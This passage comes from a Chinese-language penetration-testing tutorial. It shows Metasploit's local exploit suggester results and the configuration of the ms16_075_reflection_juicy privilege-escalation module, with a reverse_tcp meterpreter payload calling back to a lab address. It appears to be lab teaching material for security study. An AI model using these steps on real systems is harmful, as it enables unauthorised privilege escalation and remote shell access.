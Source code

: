 ```
 31  exploit/windows/local/ms16_016_webdav                          No                       The target is not exploitable.
 32  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  No                       The target is not exploitable.
 33  exploit/windows/local/ms16_075_reflection                      No                       The target is not exploitable.
 34  exploit/windows/local/ms16_075_reflection_juicy                No                       The target is not exploitable.
 35  exploit/windows/local/ms_ndproxy                               No                       The target is not exploitable.
 36  exploit/windows/local/novell_client_nicm                       No                       The target is not exploitable.
 37  exploit/windows/local/ntapphelpcachecontrol                    No                       The target is not exploitable.
 38  exploit/windows/local/panda_psevents                           No                       The target is not exploitable.
 39  exploit/windows/local/ricoh_driver_privesc                     No                       The target is not exploitable. No Ricoh driver directory found
 40  exploit/windows/local/virtual_box_guest_additions              No                       The target is not exploitable.
 41  exploit/windows/local/webexec                                  No                       The target is not exploitable.

[*] Post module execution completed
```

#### 执行提权

注意这里我之前的操作都是使用Windows7来提权的，不过演示过程中，发现无法提权，后来到这里的时候切换为Windows2012了，这里需要注意，也间接性表面，提权的困难。

这里选择上面yes的模块，并进行设置模块，然后设置相关参数，这里仔细看，首先设置session，这个就是之前msf上线的编号，然后后面可以看到我将端口设置为6666，其实这里，有时候会出现命令执行成功了，但是并不能反弹会话窗口，那么这里我就重新设置了一个监听，来监听返回的端口。

```
msf6 post(multi/recon/local_exploit_suggester)> use exploit/windows/local/ms16_075_reflection_juicy
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > options 

Module options (exploit/windows/local/ms16_075_reflection_juicy):

   Name     Current Setting                         Required  Description
   ----     ---------------                         --------  -----------
   CLSID    {4991d34b-80a1-4291-83b6-3328366b9097}  yes       Set CLSID value of the DCOM to trigger
   SESSION                                          yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  none             yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.10.20    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
```